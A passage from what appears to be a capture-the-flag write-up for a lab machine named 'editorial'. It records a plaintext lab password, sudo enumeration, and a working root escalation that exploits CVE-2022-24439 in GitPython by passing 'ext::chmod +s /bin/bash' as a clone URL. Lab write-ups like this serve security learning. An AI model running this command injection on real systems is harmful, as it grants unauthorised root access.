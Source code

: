 *Credentials*: prod : 080217_Producti0n_2023!@

## SUDO

```bash
prod@editorial:/opt/apps$ sudo -l
[sudo] password for prod: 
Sorry, try again.
[sudo] password for prod: 
Matching Defaults entries for prod on editorial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *


prod@editorial:/opt/internal_apps/clone_changes$ ls -la
total 12
drwxr-x--- 2 root     prod     4096 Jun  5 14:36 .
drwxr-xr-x 5 www-data www-data 4096 Jun  5 14:36 ..
-rwxr-x--- 1 root     prod      256 Jun  4 11:30 clone_prod_change.py
```

we can actually run as root the clone_prod_change.py -> we can probably escale our privileges from here. The file itself:

```python 
import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])

```

## Checking the imports 

```bash
prod@editorial:/usr/lib/python3.10$ find ./ -writable 2>/dev/null
prod@editorial:/usr/lib/python3.10$ find ./ -user prod 

```

Nothing for us here
Looking a bit around i found that you can use commands when using a url to clone a repository, using ext::\<command\>


```bash
prod@editorial:/opt/internal_apps/clone_changes$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py ext::chmod +s /bin/bash 
Traceback (most recent call last):
  File "/opt/internal_apps/clone_changes/clone_prod_change.py", line 12, in <module>
    r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1275, in clone_from
    return cls._clone(git, url, to_path, GitCmdObjectDB, progress, multi_options, **kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1194, in _clone
    finalize_process(proc, stderr=stderr)
  File "/usr/local/lib/python3.10/dist-packages/git/util.py", line 419, in finalize_process
    proc.wait(**kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/cmd.py", line 559, in wait
    raise GitCommandError(remove_password_if_present(self.args), status, errstr)
git.exc.GitCommandError: Cmd('git') failed due to: exit code(128)
  cmdline: git clone -v -c protocol.ext.allow=always ext::chmod new_changes
  stderr: 'Cloning into 'new_changes'...
/usr/bin/chmod: missing operand
Try '/usr/bin/chmod --help' for more information.
fatal: Could not read from remote repository.

Please make sure you have the correct access rights

```


```bash
prod@editorial:/opt/internal_apps/clone_changes$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py "ext::chmod +s /bin/bash"
```

Turns out this is an actual known vuln # CVE-2022-24439 (for the git library package, not git itself :) ), anyway this worked. now we are [[root]].